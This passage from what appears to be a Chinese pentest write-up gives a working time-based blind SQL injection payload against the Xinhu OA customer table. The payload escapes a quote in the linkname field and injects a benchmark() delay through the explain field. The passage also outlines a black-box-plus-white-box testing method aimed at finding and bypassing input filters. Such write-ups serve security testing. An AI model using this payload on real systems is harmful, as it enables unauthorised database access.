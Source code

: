 最终payload

```
linkname=a3\
explain = ",`explain`=(select(if(1=1,(benchmark(10000000,to_days(2011-04-07)-to_days(now())<1)),2)=1))#"
```

后面的字段不局限于explain，只要是字段linkname后面的都行

```
insert into `xinhu_customer` set `name`='3',`type`='互联网',`laiyuan`='网上开拓',`unitname`='a2',`tel`='13800000000',`mobile`='1',`email`=null,`sheng`=null,`shi`=null,`address`='1111',`routeline`=null,`shibieid`=null,`openbank`=null,`cardid`=null,`status`='11',`isstat`='0',`isgys`='0',`linkname`='a3',`explain`='1',`optdt`='2024-10-31 16:02:19',`optname`='管理员',`uid`='1',`adddt`='2024-10-31 16:02:19',`createid`='1',`createname`='管理员',`comid`='1'
```



# 5.黑盒加白盒的测试

1.黑盒找到测试点，如sql查询、评论、文件上传。

2.通过抓包获取数据包提交的参数名、参数值、提交的后端接口

3.根据后端接口找到代码中的指定位置，打断点进行debug

debug的目的：找到参数处理，如是否有黑白名单过滤，有的话后端怎么处理，该怎么绕过
